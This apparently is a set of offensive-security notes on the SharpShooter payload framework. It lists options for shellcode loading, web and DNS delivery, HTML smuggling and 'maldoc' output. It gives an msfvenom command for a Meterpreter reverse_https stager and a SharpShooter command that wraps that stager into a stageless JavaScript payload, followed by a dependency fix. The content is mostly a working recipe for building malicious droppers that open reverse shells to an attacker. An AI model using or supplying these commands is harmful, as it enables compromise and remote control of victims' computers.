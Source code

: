 ```
  --delivery <type>   Delivery method: web, dns, both
  --rawscfile <path>  Path to raw shellcode file for stageless payloads
  --shellcode         Use built in shellcode execution
  --scfile <path>     Path to shellcode file as CSharp byte array
  --refs <refs>       References required to compile custom CSharp,
                      e.g. mscorlib.dll,System.Windows.Forms.dll
  --namespace <ns>    Namespace for custom CSharp,
                      e.g. Foo.bar
  --entrypoint <ep>   Method to execute,
                      e.g. Main
  --web <web>         URI for web delivery
  --dns <dns>         Domain for DNS delivery
  --output <output>   Name of output file (e.g. maldoc)
  --smuggle           Smuggle file inside HTML
  --template <tpl>    Name of template file (e.g. mcafee)
```
> Use msfvenom to generate our `Meterpreter` `reverse` `stager` and write the raw output format to a file.
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=port -f raw -o /Path/to/file.txt 
```
> Sharp-Payload
```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /Path/to/file.txt --output test
```
* * Payload
> Specify format

* * dotnetver

> Target `.NET` Version: 2 or 4

* * stageless

- __https://buffered.io/posts/staged-vs-stageless-handlers/__

> Create a `stageless` payload

* * rawscfile

> Path to raw shellcode file for stageless payloads

---

### __SharpShooter Fix Jsmin Error__

![image](https://user-images.githubusercontent.com/84678370/130304854-5d9de475-6753-459f-90c6-afb87406830d.png)

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py
pip2 install --upgrade setuptools
pip2 install jsmin
```
![SHARP](https://user-images.githubusercontent.com/84678370/130305016-5896e7ba-df00-4d2d-aca0-42c63ab81785.png)

---